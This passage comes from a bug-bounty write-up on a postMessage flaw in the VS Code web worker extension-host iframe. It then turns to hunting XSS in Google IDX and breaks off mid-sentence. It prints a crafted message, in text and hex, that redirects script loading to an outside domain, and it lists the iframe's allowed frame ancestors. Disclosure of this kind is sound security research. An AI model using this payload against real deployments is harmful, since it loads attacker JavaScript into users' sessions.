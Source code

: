 People with sharingan would have already noticed the interesting part , it has some non printable chars also before it. Btw just to point if you randomly change the hostname it's not going to work the characters at the front also holds some meaning for eg the length I will talk about them later

````json
sent:   O{"$mid":1,"path":"/gl/editor/include.js","scheme":"https","authority":"peo.si"}
````

which in hex is this

````
09000000110000004f7b22246d6964223a312c2270617468223a222f676c2f656469746f722f696e636c7564652e6a73222c22736368656d65223a226874747073222c22617574686f72697479223a2270656f2e7369227d
````

Matan did mentioned somewhere I forgot where  it was, he constructed all these *postMessage* data by setting breakpoint on those worker related message handlers. And made changes to the path authority part of that message which allowed him to load the arbitrary js from his own domain.

We now have a working poc and a bit of idea how it works, so we are good move on the next part.

## XSS in Google IDX

During that time Google VRP announce something , they were paying 15k for a xss in XSS on idx.google.com

<center><a
  href="https://bughunters.google.com/blog/5400513950908416/increasing-google-alphabet-vrp-rewards-up-to-151-515"
  class="card-preview"
  data-size="medium"
  target="_blank">
  Loading preview...
</a></center>

As IDX is built on Code OOS itself it was great oppurtunity to check for the bug there. I quickly fired up a new instance grabbed the full url for that endpoint and loaded it inside an iframe.

<https://idx-test-1723049072870.cluster-qpa6grkipzc64wfjrbr3hsdma2.cloudworkstations.dev/cde-b0e6fa075cda44c438f11d44d4466ea348722d00/static/out/vs/workbench/services/extensions/worker/webWorkerExtensionHostIframe.esm.html?&VSCodeWebWorkerExtHostId=651e8c71-0f38-4e7e-b9cb-0de00c82087b>

And very soon saw my first disappointment appeared :(

````
frame-ancestors: 'self', https://80-idx-test-1723049072870.cluster-qpa6grkipzc64wfjrbr3hsdma2.cloudworkstations.dev, https://idx-test-1723049072870.cluster-qpa6grkipzc64wfjrbr3hsdma2.cloudworkstations.dev, https://monospace.corp.google.com, https://monospace-dev.corp.google.com, https://monospace-staging.corp.google.com, https://monospace-autopush.corp.google.com, https://msm.sandbox.google.com, https://monospace.sandbox.google.com, https://idx.sandbox.google.com, https://monospace.google.com, https://idx.google.com, https://studio.firebase.google.com, https://*.sslproxy.corp.google.com, https://*.cloudworkstations.googleusercontent.com, https://localhost.corp.google.com:10443
````

Just one thing was good with this was that it allowed a lot of other domains so a xss in any of these looked very promising. The most reliable was this `https://*.cloudworkstations.googleusercontent.com` but I had no idea from where I would lead to this, the name does suggest this domain is meant for hosting user controllable input.
So I contacted my Google vrp leet friend
